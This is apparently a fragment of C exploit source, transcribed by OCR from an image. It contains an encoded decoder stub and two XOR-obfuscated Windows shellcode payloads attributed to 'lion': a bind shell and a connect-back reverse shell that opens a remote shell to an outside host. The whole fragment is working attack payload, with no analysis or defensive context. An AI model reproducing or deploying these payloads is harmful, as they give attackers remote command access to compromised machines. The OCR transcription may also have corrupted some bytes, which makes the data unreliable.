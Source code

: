 
    unsigned char   *szSend[4];
    unsigned char   szCommand[MAX_LEN];
    char        szDirectory[0x100];

    // 28 bytes decode by lion, don't change this.
    unsigned char decode[]=
    "\xBE\x6D\x69\x6F\x6E\x4E\xBF\x6D\x69\x30\x6E\x4F\x43\x39\x3B\x75"
    "\xFB\x4B\x80\x33\x93\x39\x73\xFC\x75\xF7\xFF\xD3";

    // Shellcode start sign, use for decode, don't change this.
    unsigned char sc_start[]=
    "lion";

    // Shellcode end sign, use for decode, don't change this.
    unsigned char sc_end[]=
    "li0n";

    // 311 bytes bind shellcode by lion (xor with 0x93)
    unsigned char sc[]=
    "\x7A\x96\x92\x93\x93\xCC\xF7\x32\xA3\x93\x93\x93\x18\xD3\x9F\x18"
    "\xE3\x8F\x3E\x18\xFB\x9B\x18\x64\xF9\x97\xCA\x7B\x36\x93\x93\x93"
    "\x71\x6A\xFB\xA0\xA1\x93\x93\xFB\xE4\xE0\xA1\xCC\xC7\x6C\x85\x18"
    "\x7B\xF9\x95\xCA\x7B\x1F\x93\x93\x93\x71\x6A\x12\x7F\x03\x92\x93"
    "\x93\xC7\xFB\x92\x92\x93\x93\x6C\xC5\x83\xC3\xC3\xC3\xC3\xF9\x92"
    "\xF9\x91\x6C\xC5\x87\x18\x4B\x54\x94\x91\x93\x93\xA6\xA0\x53\x1A"
    "\xD4\x97\xF9\x83\xC4\xC0\x6C\xC5\x8B\xF9\x92\xC0\x6C\xC5\x8F\xC3"
    "\xC3\xC0\x6C\xC5\xB3\x18\x4B\xA0\x53\xFB\xF0\xFE\xF7\x93\x1A\xF5"
    "\xA3\x10\x7F\xC7\x18\x6F\xF9\x87\xCA\x1A\x97\x1C\x71\x68\x55\xD4"
    "\x83\xD7\x6D\xD4\xAF\x6D\xD4\xAE\x1A\xCC\xDB\x1A\xCC\xDF\x1A\xCC"
    "\xC3\x1E\xD7\xB7\x83\xC4\xC3\xC2\xC2\xC2\xF9\x92\xC2\xC2\x6C\xE5"
    "\xA3\xC2\x6C\xC5\x97\x18\x5F\xF9\x6C\x6C\xA2\x6C\xC5\x9B\xC0\x6C"
    "\xC5\xB7\x6C\xC5\x9F\xC2\xC5\x18\xE6\xAF\x18\xE7\xBD\xEB\x90\x66"
    "\xC5\x18\xE5\xB3\x90\x66\xA0\x5A\xDA\xD2\x3E\x90\x56\xA0\x48\x9C"
    "\x2D\x83\xA9\x45\xE7\x9B\x52\x58\x9E\x90\x49\xD3\x78\x62\xA8\x8C"
    "\xE6\x74\xCD\x18\xCD\xB7\x90\x4E\xF5\x18\x9F\xD8\x18\xCD\x8F\x90"
    "\x4E\x18\x97\x18\x90\x56\x38\xCD\xCA\x50\x7B\x65\x6D\x6C\x6C\x1D"
    "\xDD\x9D\x7F\xE1\x6D\x20\x85\x3E\x4A\x96\x5D\xED\x4B\x71\xE0\x58"
    "\x7E\x6F\xA8\x4A\x9A\x66\x3E\x37\x89\xE3\x54\x37\x3E\xBD\x7A\x76"
    "\xDA\x15\xDA\x74\xEA\x55\xEA";

    // 294 bytes connectback shellcode by lion (xor with 0x93)
    unsigned char cbsc[]=
    "\x7A\x6F\x93\x93\x93\xCC\xF7\x32\xA3\x93\x93\x93\x18\xD3\x9F\x18"
    "\xE3\x8F\x3E\x18\xFB\x9B\x18\x64\xF9\x97\xCA\x7B\x0F\x93\x93\x93"
    "\x71\x6A\xFB\xA0\xA1\x93\x93\xFB\xE4\xE0\xA1\xCC\xC7\x6C\x85\x18"
    "\x7B\xF9\x97\xCA\x7B\x10\x93\x93\x93\x71\x6A\x12\x7F\x03\x92\x93"
    "\x93\xC7\xFB\x92\x92\x93\x93\x6C\xC5\x83\xC3\xC3\xC3\xC3\xF9\x92"
    "\xF9\x91\x6C\xC5\x87\x18\x4B\xFB\xEC\x93\x93\x92\xFB\x91\x93\x93"
    "\xA6\x18\x5F\xF9\x83\xC2\xC0\x6C\xC5\x8B\x16\x53\xE6\xD8\xA0\x53"
    "\xFB\xF0\xFE\xF7\x93\x1A\xF5\xA3\x10\x7F\xC7\x18\x6F\xF9\x83\xCA"
    "\x1A\x97\x1C\x71\x68\x55\xD4\x83\xD7\x6D\xD4\xAF\x6D\xD4\xAE\x1A"
    "\xCC\xDB\x1A\xCC\xDF\x1A\xCC\xC3\x1E\xD7\xB7\x83\xC4\xC3\xC2\xC2"
    "\xC2\xF9\x92\xC2\xC2\x6C\xE5\xA3\xC2\x6C\xC5\x97\x18\x5F\xF9\x6C"
    "\x6C\xA2\x6C\xC5\x9B\xC0\x6C\xC5\x8F\x6C\xC5\x9F\xC2\xC5\x18\xE6"
    "\xAF\x18\xE7\xBD\xEB\x90\x66\xC5\x18\xE5\xB3\x90\x66\xA0\x5A\xDA"
    "\xD2\x3E\x90\x56\xA0\x48\x9C\x2D\x83\xA9\x45\xE7\x9B\x52\x58\x9E"
    "\x90\x49\xD3\x78\x62\xA8\x8C\xE6\x74\xCD\x18\xCD\xB7\x90\x4E\xF5"
    "\x18\x9F\xD8\x18\xCD\x8F\x90\x4E\x18\x97\x18\x90\x56\x38\xCD\xCA"
    "\x50\x7B\x6C\x6D\x6C\x6C\x1D\xDD\x9D\x7F\xE1\x6D\x20\x85\x3E\x4A"
    "\x96\x5D\xED\x4B\x71\xE0\x58\x7E\x6F\xA8\x4A\x9A\x66\x3E\x7F\x6A"
    "\x39\xF3\x74\xEA\x55\xEA";
